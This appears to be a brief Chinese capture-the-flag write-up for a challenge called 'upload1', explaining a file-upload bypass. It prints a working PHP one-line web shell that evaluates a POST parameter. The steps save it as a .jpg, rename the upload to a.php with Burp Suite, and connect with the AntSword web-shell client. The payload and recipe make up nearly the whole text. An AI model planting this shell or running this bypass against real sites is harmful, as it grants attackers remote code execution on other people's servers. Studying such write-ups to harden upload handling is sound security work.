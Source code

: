 

# upload1


* 编写一句话脚本，修改后缀为.jpg文件
``` 
<?php @eval($_POST['hacker']); ?>
```

* burpsuit截获流量，修改文件名为a.php

* 蚁剑直接连
